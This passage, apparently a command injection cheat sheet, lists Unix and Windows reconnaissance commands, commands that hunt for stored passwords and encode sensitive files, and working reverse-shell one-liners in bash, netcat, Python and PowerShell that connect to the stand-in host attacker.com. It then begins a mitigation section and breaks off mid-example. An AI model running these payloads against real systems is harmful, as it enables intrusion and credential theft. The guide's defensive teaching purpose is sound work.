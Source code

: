   - **Unix/Linux command injection**
    - System information gathering:
      - `uname -a` - System information
      - `id` - User and group information
      - `w` - Who is logged in
      - `ps -ef` or `ps aux` - Process listing
      - `netstat -an` - Network connections
      - `find / -perm -u=s -type f 2>/dev/null` - Find SUID binaries
    - Data access and exfiltration:
      - `grep -r password /var/www/` - Find password strings
      - `find / -name "*.conf" -type f -exec grep -l "password" {} \;` - Find config files with passwords
      - `tar -czf - /etc | base64` - Archive and encode sensitive directory
    - Reverse shells:
      - `bash -i >& /dev/tcp/attacker.com/4444 0>&1`
      - `nc -e /bin/sh attacker.com 4444`
      - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker.com",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'`
  
  - **Windows command injection**
    - System information gathering:
      - `systeminfo` - Detailed system information
      - `whoami /all` - User, group and privileges information
      - `tasklist /v` - Process listing
      - `netstat -ano` - Network connections
      - `dir /s /b C:\*pass*.txt C:\*pass*.xml C:\*pass*.ini` - Find password files
    - Data access and exfiltration:
      - `findstr /si password *.xml *.ini *.txt *.config` - Find password strings
      - `reg query HKLM /f password /t REG_SZ /s` - Find passwords in registry
      - `certutil -encode C:\secrets.txt encoded.txt` - Encode sensitive file
    - Reverse shells:
      - `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('attacker.com',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

- **Prevention and mitigation**
  
  - **Secure coding practices**
    - Avoid using system commands where possible:
      - Use built-in language functions instead of external commands
      - Example: Use file manipulation functions instead of calling `rm`, `mv`, etc.
    - Use parameterized APIs if system commands are necessary:
      - Python: Use `subprocess.run()` with `shell=False` and array arguments
      - PHP: Use `escapeshellarg()` and `escapeshellcmd()` functions
      - Java: Prefer `ProcessBuilder` over `Runtime.exec()`
    - Example secure code (Python):
      ```python
      # Insecure
      os.system('ping -c 4 ' + user_input)
      